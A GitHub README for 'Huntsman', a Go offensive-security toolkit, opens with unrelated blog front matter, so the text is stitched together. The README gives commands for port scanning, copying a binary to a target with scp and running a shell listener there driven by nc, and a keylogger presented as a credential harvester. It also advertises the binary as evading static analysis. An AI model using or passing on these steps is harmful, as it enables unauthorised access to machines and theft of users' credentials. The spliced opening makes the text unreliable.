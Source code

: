 ```yaml
---
title: "Learning how to learn: Focused vs. Diffused mode of learning"
date: 2020-07-26T13:53:35+05:30
draft: false
---
```

# Huntsman
A swiss army knife for offensive security.  
https://souvikhaldar.github.io/huntsman/

![](huntsman-main.jpg)


# Inspiration
The inspiration of this tool are primarily the following two sources:
1. Pursuing [Advanced Exercutive Program in Cyber Security and Cyber Defense](https://talentsprint.com/pages/wip/iit-kanpur/v2.5/index.html) at the esteemed [c3i](https://security.cse.iitk.ac.in/) institution of [IIT Kanpur](https://www.iitk.ac.in/) and Professor [Sandeep Shukla](https://www.cse.iitk.ac.in/users/sandeeps/), [Rohit Negi](https://www.linkedin.com/in/rohit-negi-02856227/) and [Anand Handa](https://www.linkedin.com/in/anand-handa-391a61107/), who helped take baby steps in cyber security world.  
2. The excellent book [Black Hat Go: Go Programming For Hackers and Pentesters](https://www.amazon.in/Black-Hat-Go-Programming-Pentesters-ebook/dp/B073NPY29N) by Tom Steele, Chris Patten and Dan Kottmann. 


# What sets huntsman apart?
* Fast and concurrent
* Single binary executable for almost every platform and architecture
* Consumes very less RAM (about 10-15 MB) and CPU  
* Each step well documented and covered in video tutorial as well 
* The binary compiled it Golang is very hard to reverse engineer, hence it is
safe from Static Analysis to a large extent.  


# Complete Guide
		

# Installation
There multiple ways in which you can install `huntsman` on your machine or a target machine.  

1. Install it using golang compiler using `go install` or `go build`
	
	1. [Install Golang](https://golang.org/doc/install)    
	2. `git clone git@github.com:souvikhaldar/huntsman.git`
	3. `cd huntsman`  
	4. `go install`  
2. Download the binary from RELEASES and save it on on `$PATH`.  
3. Use the `goinstaller.py` script.  
	```
	./goinstaller.py --help 
	Install go program for multiple OS and multiple architectures
	Run goinstaller.py --help for all options
	usage: goinstaller.py [-h]
			      [--os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}]
			      [--arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}]
			      [--source SOURCE] [--target TARGET]

	optional arguments:
	  -h, --help            show this help message and exit
	  --os {all,popular,linux,darwin,windows,dragonfly,android,freebsd,netbsd,openbsd,plan9,solaris,aixjs}
				The target OS. Eg. all,linux,darwin,windows,etc
	  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,mips,mipsle,mips64,mips64le,s390x}
				The target's architecture. Eg. all,amd64,386,etc
	  --source SOURCE       The directory where source source is present
	  --target TARGET       The target dir where the binary needs to be stored
	```

	Eg. Compiling for **popular** OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
	`./goinstaller.py --target ./download --os popular --arch amd64`


# Transfer to a target
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice:  
Eg, transfering linux binary to target machine:  
`scp ./download/linux_amd64 username@address:location`


# Setup
Some tools allow you to store the information on the database, like IP location tracing.  
If you want the same, you have to set the configuration for the same in `config.json` at
the root and provide the following information:   

```
{
  "mongo_uri": "uri of the mongo atlas",
  "mongo_username":"usename",
  "mongo_password":"password",
  "mongo_database":"database name",
  "mongo_collection":"collection name",
  "js_file_path":"path to js file for serving reverse shell"
}
```

# Fast concurrent port scanning  
``` 
huntsman portscan --help                                                                                    SIGINT(2) ↵  5295  10:30:46
Concurrently scan the provided range (by default 0 to 65535) to check if any port is open

Usage:
  huntsman portscan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portscan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be scanned
  -t, --threads int32   the number of goroutines to execute at a time (default 100)

```

Example:  
`huntsman portScan --target abc.com`  

# Location details of IP or tcpdump  
```
huntsman ipinfo --help                                                                                              ✔  5244  03:05:00
Fetch the location information of the IP

Usage:
  huntsman ipinfo [flags]

Flags:
  -c, --config string     The path to the configuration JSON file
  -h, --help              help for ipinfo
      --ip string         IP address of the target
  -p, --persist           Do you want to store the response to mongo? If yes, please provide value to --config flag
  -s, --read-stream       Do you want to read from tcpdump output contineously?
  -t, --tcp-dump string   source file of tcpdump
```

There are three ways you can lookup location details of IP.
1. Lookup single IP or domain name. Eg. `huntsman ipinfo --ip netflix.com`  
2. Parse `tcpdump` log. Eg. `huntsman ipinfo --tcp-dump server.log`  
3. See the location details of incoming traffic in real tim. `huntsman ipinfo -s`   
If you want to store it to db, you can provide details in `config.json` at root dir, then use `huntsman ipinfo -s -p -c config.json`  
[Youtube link for the video demonstration](https://youtu.be/rdE3cGBT_wA)


# Run a TCP proxy

`huntsman proxy -s <local-port> -t <target-address> -p <target-port>`   

# Run a TCP listener

`huntsman listen --port=<port>`


# Reverse shell
First you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using `./<binary-name> reverseshell --port <port-number>`. Now the listener is
running to which you will be sending instructions to execute.   

We will be using [netcat](http://netcat.sourceforge.net/) as the client for 
sending the commands over the network.  
`nc <address-of-target> <port-number>`  
[Youtube link for the video demonstration](https://youtu.be/eE0k0GVZXyc)

# Keylogger 
A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.    
Eg. `huntsman keylogger -w localhost:8192 -l 8192`   

This video is the demonstration for using huntsman as a keylogger. [Link to youtube video](https://youtu.be/BoPICq1MVhA)




